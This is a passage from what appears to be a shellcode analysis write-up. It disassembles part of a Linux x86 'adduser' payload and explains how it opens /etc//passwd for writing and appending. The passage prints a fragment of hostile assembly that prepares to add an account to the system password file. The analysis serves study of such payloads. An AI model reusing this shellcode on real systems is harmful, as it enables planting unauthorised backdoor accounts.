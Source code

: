 ![setreuid](images/adduser/setreuid.png)

### open
The next instructions until the next int 0x80 are the following:
``` assembly
0x0804c049 <+9>:	push   0x5
0x0804c04b <+11>:	pop    eax
0x0804c04c <+12>:	xor    ecx,ecx
0x0804c04e <+14>:	push   ecx
0x0804c04f <+15>:	push   0x64777373
0x0804c054 <+20>:	push   0x61702f2f
0x0804c059 <+25>:	push   0x6374652f
0x0804c05e <+30>:	mov    ebx,esp
0x0804c060 <+32>:	inc    ecx
0x0804c061 <+33>:	mov    ch,0x4
0x0804c063 <+35>:	int    0x80
```
We can see that eax is loaded with 0x5 which is the open function.
```c
int open(const char *pathname, int flags, mode_t mode);
```
After that a null and some hexcodes are pushed to the stack. When we decode this in reverse order we can see that this is the string /etc//passwd which is pushed and the pointer is saved in ebx. Reading the manual in ebx is the pointer to the file which should be opened. In this function ecx is used for flags. Here ecx is increased to 1 and then increased to 0x401 which stands for the Flags O_WRONLY|O_APPEND. After preparing the arguments the function is executed.

![open](images/adduser/open.png)
